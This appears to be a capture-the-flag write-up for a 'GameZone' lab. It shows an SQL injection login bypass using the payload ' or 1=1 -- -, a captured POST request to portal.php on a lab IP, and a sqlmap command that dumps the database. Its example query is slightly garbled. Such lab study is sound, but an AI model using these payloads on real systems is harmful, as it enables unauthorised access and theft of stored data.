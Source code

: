 * * * 

## Task 2 - Obtain access via SQLi 

In this task you will understand more about SQL (structured query language) and how you can potentially manipulate queries to communicate with the database.

SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:

- ``SELECT * FROM users WHERE username = :username AND password := password``

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

``SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -``

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use ``' or 1=1 -- -`` as your username and leave the password blank.

**When you've logged in, what page do you get redirected to?**

- portal.php

## Task 3 - Using SQLMap 

- capture request to ``portal.php`` and copy to file to feed to SQLMap so we can have the authenitcated user session.

```shell
POST /portal.php HTTP/1.1
Host: 10.10.147.210
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://10.10.147.210
Connection: close
Referer: http://10.10.147.210/portal.php
Cookie: PHPSESSID=i6ngovs5ocoho38fkusrttnm23
Upgrade-Insecure-Requests: 1

searchitem=awesome
```

- ``sqlmap -r request.txt --dbms=mysql --dump``
- ``-r`` for request file
- ``--dbms=mysql`` database management system type
- ``-dump`` outputs the entire database or attemps to
